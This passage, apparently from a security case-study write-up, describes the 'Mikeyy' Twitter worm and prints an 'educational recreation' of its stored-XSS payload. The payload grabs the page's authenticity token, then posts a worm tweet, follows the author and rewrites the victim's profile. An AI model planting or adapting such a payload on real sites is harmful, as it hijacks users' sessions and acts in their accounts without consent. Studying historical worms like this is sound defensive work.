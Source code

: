 **Impact**: 1+ million Twitter accounts infected
**Attack Vector**: Stored XSS in tweet content
**Propagation**: Automatic retweeting and following

**Worm Implementation**:
```javascript
// Twitter XSS Worm (Mikeyy) - Educational Recreation
const twitterXSSWorm = \`
<script>
(function() {
    // Worm identification
    if (window.mikeyy_infected) return;
    window.mikeyy_infected = true;
    
    // Extract authentication tokens
    const authToken = document.querySelector('input[name="authenticity_token"]').value;
    const userId = document.querySelector('.current-user').dataset.userId;
    
    // Worm payload
    const wormTweet = 'Mikeyy is a genius! ' + window.location.href + ' #mikeyy';
    
    // Post infected tweet
    fetch('/status/update', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
            'X-Requested-With': 'XMLHttpRequest'
        },
        body: new URLSearchParams({
            'authenticity_token': authToken,
            'status': wormTweet,
            'source': 'web'
        })
    });
    
    // Follow the worm creator
    fetch('/friendships/create/mikeyy', {
        method: 'POST',
        headers: {
            'X-Requested-With': 'XMLHttpRequest'
        },
        body: new URLSearchParams({
            'authenticity_token': authToken
        })
    });
    
    // Modify user profile
    fetch('/account/settings', {
        method: 'POST',
        body: new URLSearchParams({
            'authenticity_token': authToken,
            'user[description]': 'I love Mikeyy! He is a genius!'
        })
    });
    
})();
</script>
\`;
```
